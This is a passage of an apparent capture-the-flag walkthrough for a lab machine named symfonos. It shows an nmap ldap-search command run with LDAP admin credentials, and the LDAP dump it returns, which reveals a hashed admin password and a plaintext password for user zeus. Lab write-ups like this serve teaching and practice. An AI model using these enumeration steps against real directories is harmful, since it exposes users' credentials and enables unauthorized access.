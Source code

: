 - So the password for user `zeus` is `cetkKf4wCuHC9FET`.

#### Nmap ldap-search Script

- [Nmap ldap-search Script](https://nmap.org/nsedoc/scripts/ldap-search.html)

- ```
  nmap -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local",ldap.password=qMDdyZh3cT6eeAWD' 10.0.2.10
  ```

```
PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search:
|   Context: dc=symfonos,dc=local
|     dn: dc=symfonos,dc=local
|         objectClass: top
|         objectClass: dcObject
|         objectClass: organization
|         o: symfonos
|         dc: symfonos
|     dn: cn=admin,dc=symfonos,dc=local
|         objectClass: simpleSecurityObject
|         objectClass: organizationalRole
|         cn: admin
|         description: LDAP administrator
|         userPassword: {SSHA}UWYxvuhA0bWsjfr2bhtxQbapr9eSgKVm
|     dn: uid=zeus,dc=symfonos,dc=local
|         uid: zeus
|         cn: zeus
|         sn: 3
|         objectClass: top
|         objectClass: posixAccount
|         objectClass: inetOrgPerson
|         loginShell: /bin/bash
|         homeDirectory: /home/zeus
|         uidNumber: 14583102
|         gidNumber: 14564100
|         userPassword: cetkKf4wCuHC9FET
|         mail: zeus@symfonos.local
|_        gecos: Zeus User
```

- We can see the credentials for user `zeus`:
```